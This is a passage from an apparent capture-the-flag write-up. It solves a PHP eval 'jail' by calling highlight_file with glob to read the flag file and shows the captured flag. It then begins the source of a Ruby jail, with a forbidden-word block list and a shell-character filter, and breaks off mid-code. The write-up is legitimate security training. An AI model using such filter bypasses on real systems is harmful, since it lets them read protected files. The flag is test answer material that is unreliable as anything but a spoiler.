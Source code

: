 ```
if(filter($var)) {
        eval($var);
} else {
        echo "[!] Restricted characters has been used";
}
echo "\n";
?>
```

This PHP jail filters out common functions for executing system commands and reading the flag directly.
The goal here is to find another PHP function that allows us to read the flag without.

We can use [highlight_file](https://www.php.net/manual/en/function.highlight-file.php) to read any file and `glob()` to do wildcard matching on filenames because "flag" is filtered.

```
marcus@Marcuss-MacBook-Air eevee4 % nc 157.180.92.15 39325
========================
=    Eevee's Jail 4    =
========================
[+] > highlight_file(glob("fl*txt")[0]);
<code><span style="color: #000000">
bbct{hmm..&nbsp;so&nbsp;unpopular&nbsp;php&nbsp;function&nbsp;i&nbsp;guess?}<br /></span>
</code>
```

You'll have to render the HTML to get the actual flag, I got it wrong a couple of times :)

Flag:  bbct{hmm.. so unpopular php function i guess?}

### Eevee Jail - 5 (Jail)

> How do you even escape this? Flag is at flag.txt
> 
> Author: n3r

```rb
#!/usr/bin/env ruby

ALLOWED_COMMANDS = ["ls"]

def sanitize_input(input)
  forbidden_words = %w[flag eval system read exec irb puts dir]
  
  forbidden_pattern = /\b(?:#{forbidden_words.join('|')})\b/

  if input.match(/[&|<>$`]/) || input.match(forbidden_pattern)
    return false
  end
  true
end

def execute_command(cmd)
  if ALLOWED_COMMANDS.include?(cmd.split.first)
    system(cmd)
  else
    puts "Command not allowed!"
  end
end

puts "========================\n"
puts "=    Eevee's Jail 5    =\n"
puts "========================\n"

while true
```